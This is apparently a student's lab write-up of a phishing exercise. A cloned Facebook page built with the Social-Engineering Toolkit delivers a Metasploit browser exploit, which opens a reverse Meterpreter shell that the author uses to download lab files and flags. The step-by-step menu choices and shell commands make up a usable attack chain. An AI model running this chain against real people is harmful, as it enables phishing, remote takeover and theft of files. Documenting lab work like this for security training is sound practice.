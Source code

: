 ## Objective
In this lab, I am setting up a fake Facebook website, then sending the
link to that fake website via email to the target. The target will login
to the fake facebook which will run an exploit through metasploit to
connect to the target machine

## Skills Learned
Setting up a fake Facebook website using SET (Social Engineering Toolkit)<br>
Using the Facebook web template and Metasploit reverse TCP meterpreter shell<br>
Using Metasploit commands to list and interact with active sessions once the exploit is triggered<br>
Practiced working with a Meterpreter shell to navigate directories and download/upload files <br>
Downloading a directory and specific files, including flag files<br>
Using background to manage sessions and noting the persistence of the exploit<br>

## **Casting the Net - Setting up the fake website**

In the given machine, I was just able to type 'setoolkit' in the
terminal to launch the SET application

I selected (1) for Social-Engineering Attacks

\(2\) for Website Attack Vectors

\(2\) for Metasploit Browser Method

\(1\) to use Web Templates

I'm not sure what the next step meant, but I put in "no" for using
NAT/port forwarding

![image7](https://github.com/user-attachments/assets/02c84419-4212-45cf-92f4-ae91eb8386c5)

I typed my host IP address which was "175.45.176.199"

\(3\) to use the Facebook web template

\(46\) for the Metasploit browser exploit

\(2\) for Reverse TCP Meterpreter Shell

{Enter} for using the default port of 443

Waited for a bunch of messages from Metasploit starting the server w/
exploits

Waited until "Done, found x exploit modules"

## **Getting Attacked - Using the Target System**

I logged in to the target server

I'm not sure how, but there was already an email sent.

The hyperlink to "facebook.com" sent the browser to the fake website

I, as the target, signed in with whatever credentials I was given but I
believe literally anything would work, as long as they hit enter which
will send them to another page. This exploit page will seem to "hang" as
the exploit begins

![image12](https://github.com/user-attachments/assets/126b776f-8795-4687-818c-bae98beb9635)
![image2](https://github.com/user-attachments/assets/1afaf3d9-754b-4ff0-8f03-6b291c2a31b3)


## **Connecting to the Machine**
![image8](https://github.com/user-attachments/assets/82418c34-4a27-4c7c-9d31-fb120307d29c)

Now back the attacker's console, in the "msf auxiliary" command line

**'sessions -l'** to **list all active sessions**

**'sessions** -i **#'** to **interact with a certain machine**

in this case i do 'sessions -i 1' to interact with the first machine

![image9](https://github.com/user-attachments/assets/c29feb7c-57ef-4af9-a3af-0399fff96fb7)


## **Stealing Data - [[Working in a Meterpreter Shell]{.underline}](https://docs.google.com/document/d/1ww7Tdts1mNIEKEzmUEuEu2cWaBv3Tr-fGKvRfu_FwK0/edit)**

**'pwd'** to find the **present working directory** to figure out where
I am

Then can use normal windows 'cd' commands to change directory

**'cd /'** to change to root directory

![image1](https://github.com/user-attachments/assets/e0348259-b391-40ee-939c-29ee9df60751)


'**ls'** to list files and folders in the directory, any name that pops
up without an extension is a folder I assume

![image6](https://github.com/user-attachments/assets/b8f77328-d687-4947-b513-6ed633c6000f)


**'cd share'** to move into the share folder

![image11](https://github.com/user-attachments/assets/3a62dac7-84ed-4fbc-872f-ceb315efb5aa)


We can see a folder called "DeathStar" which very likely has classified
imperial plans that I should investigate.

Moving into the DeathStar folder, I see 4 images of blueprints, I can
download the ENTIRE directory by using **'download \*.\*'** and then
sending it to my root folder by adding **'/root'**

So the entire command is **'download \*.\* /root'** to download the
entire directory and then outputting it into my root folder

I can also do **'/root/Blueprints'** to put these images in a dedicated
folder that was just created with the command

![image3](https://github.com/user-attachments/assets/c7b406ed-531b-4d80-9e53-e8b1f1a3f739)


![image10](https://github.com/user-attachments/assets/d4b756a6-9363-4a94-834a-209a5d3a6d45)


Each blueprint has a flag somewhere in the picture

blueprint1 = 999818

blueprint2 = 111222

blueprint3 = 777558

blueprint4 = 655913

I can also download the flag4.xml file in /share using the same download
method. Opening it reveals the flag in the first few lines of the file
(444588)

![image4](https://github.com/user-attachments/assets/3f072c03-35c3-43f5-874f-d04eb06c2d9d)


## **Closing notes**

I can find the ip address of the machine using **'ipconfig'**

**'background'** lets me put the current session in the background so I
can interact with the msf auxiliary console

Even if the target machine closes the web browser, I still have a
completely normal connected session to the machine. I can still move
through directories and download files and see changes made such as
adding or deleting files. I only lost access to the machine when they
manually stopped the "notepad.exe" process that I noticed was
responsible for the exploit in the first section.

In this lab, I noticed an additional machine in the topology called the
Windows 8.1 Attack Server. I'm not really sure how this machine played a
role in this, but I noticed it has the same 175.45.176.200 ip address as
the fake Facebook website, so perhaps it's the server hosting the fake
website? Also I never did any command involving that ip address, so
maybe it's something that was set up before.

![image5](https://github.com/user-attachments/assets/77b02be7-27cc-4350-8ed9-10e53db96ed6)
